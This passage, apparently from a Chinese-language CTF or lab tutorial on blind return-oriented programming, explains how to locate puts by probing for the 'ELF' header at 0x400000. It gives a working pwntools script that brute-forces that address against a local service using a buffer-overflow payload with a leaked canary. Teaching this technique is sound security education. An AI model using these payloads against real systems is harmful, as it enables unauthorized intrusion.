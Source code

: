 ```python

        Connection_flag = p.recv(timeout = 1)
        p.close()

        return True

    except:

        p.close()
        return False
```



### 寻找puts函数

直到csu函数后，就可以控制参数传递的第一个值了，此时就可以来寻找puts函数了。

如果一个程序没有开启PIE地址随机化，那么从0x400000开始，第2、3、4字节分别对应字符E、L、F。

所以可以通过pop_rdi将0x400000从栈中如rdi寄存器，在ret返回到probe地址，如果probe地址为puts函数，那么程序输出的字符串中就会包含"ELF"字符，从而可以判断probe是否为puts函数地址



payload

```python
def find_puts_function(buf_flag:int,canary_flag:bytes,pop_rdi:bytes):

    puts_flag = 0x0
    probe_puts = 0x400624

    while puts_flag == 0:

        try:

            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            payload += pop_rdi + p64(0x400000)
            payload += p64(probe_puts)
            p.send(payload)
			

            Context = p.recv(timeout = 1)
            p.close()
			
            #返回的内容中存在ELF
            if b"ELF" in Context:
                puts_flag = probe_puts
                break

            probe_puts += 1
            
        except:
            
            p.close()
            probe_puts += 1
                
    return puts_flag
```
